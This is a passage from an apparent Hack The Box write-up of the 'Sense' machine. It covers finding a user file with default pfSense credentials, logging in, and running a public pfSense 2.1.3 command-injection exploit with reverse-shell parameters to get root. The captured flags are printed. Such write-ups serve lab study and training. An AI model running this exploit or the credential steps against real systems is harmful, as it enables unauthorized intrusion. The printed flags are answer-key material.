	[WARN] Caught keyboard interrupt (Ctrl-C)
	```
	- `system-users.txt`
7. View `system-users.txt`
	```
	┌──(root💀kali)-[~/htb/sense]
	└─# curl -ks https://10.10.10.60/system-users.txt
	####Support ticket###
	
	Please create the following user
	
	
	username: Rohit
	password: company defaults
	```
	- `Rohit:company defaults`
8. Successfully login w/ `rohit:pfsense`, found version of `pfsense`
	![]({{ page.img_path }}Pasted%20image%2020220824193550.png)
	- `pfsense 2.1.3`


## TCP/443 (HTTPS) - pfSense <2.1.4 RCE
1. Try `php/webapps/43560.py`
	1. How does the exploit work?
		- `pfSense` before `2.1.4` allows remote authenticated users to execute arbitrary commands via (1) the hostname value to `diag_dns.php` in a Create Alias action, (2) the smartmonemail value to `diag_smart.php`, or (3) the database value to `status_rrd_graph_img.php`.
	2. (3) is used in this exploit
	3. Start listener
	4. Exploit
		```
		┌──(root💀kali)-[~/htb/sense/10.10.10.60/exploit]
		└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.31 --lport 4444 --username rohit --password pfsense 
		CSRF token obtained
		Running exploit...
		Exploit completed
		```
		![]({{ page.img_path }}Pasted%20image%2020220824195919.png)
2. Root & User Flag
	```
	8721327cc232073b40d27d9c17e7348b
	d08c32a5d4f8c8b10e76eb51a69f1a86
	```
	![]({{ page.img_path }}Pasted%20image%2020220824200103.png)

# Privilege Escalation

## Already Root






